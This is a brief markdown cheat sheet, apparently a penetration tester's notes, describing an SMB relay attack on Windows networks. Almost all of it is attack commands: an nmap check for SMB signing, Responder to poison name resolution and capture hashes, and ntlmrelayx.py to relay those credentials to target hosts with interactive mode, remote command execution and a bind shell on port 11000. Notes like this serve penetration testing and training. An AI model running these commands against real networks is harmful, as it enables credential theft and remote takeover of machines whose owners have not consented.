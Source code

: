 ## SMB Relay

SMB Signing must be disabled or not enforced on targets. Relayed user credentials must be admin on the machine for any real value.

```bash
nmap --script-smb2-security-mode.nse -p445 10.13.37.20

Turn SMB & HTTP in responder off.

sudo responder -I eth0 -dwP

sudo ntlmrelayx.py -t target -smb2support
sudo ntlmrelayx.py -tf targets -smb2support

# -i adds interactive mode
# -c issues remote commands
```

![[smbrelay.png]]

Interactive mode launches a bind on :11000
![[smbrelayinteractive.png]]